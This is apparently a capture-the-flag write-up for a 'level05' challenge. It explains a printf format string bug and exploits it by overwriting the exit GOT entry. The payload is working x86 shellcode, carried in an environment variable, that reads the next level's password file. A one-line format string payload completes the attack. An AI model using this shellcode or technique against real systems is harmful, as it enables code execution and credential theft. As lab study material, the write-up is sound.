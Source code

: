 # level05

This is a surprisingly easy one.

The program reads a line from STDIN and converts to lowercase every uppercase letters. It then prints the resulting
string by directly passing it to `printf`. Finally, it calls `exit`.

The obvious exploit actually works, no trap here. The lowercase conversion is absolutely not an issue either.
All we need to do is overwrite the `exit` address in the GOT with a format string attack.

```bash
export SHELLCODE=$(python -c 'print "\x90"*1000 + "\xEB\x26\x31\xC0\xB0\x05\x5B\x31\xC9\x31\xD2\xCD\x80\xC6\x44\x24\x28\x0A\x89\xC3\xB0\x03\x89\xE1\xB2\x29\xCD\x80\xB0\x04\xB3\x01\x89\xE1\xCD\x80\xB0\x01\xCD\x80\xE8\xD5\xFF\xFF\xFF/home/users/level06/.pass"')
```

```bash
python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%54839X%10$n%10688X%11$n"' | ./level05
```

Oh yeah we reused our level04 shellcode, and probably will continue to do so when possible. Isn't is neat?
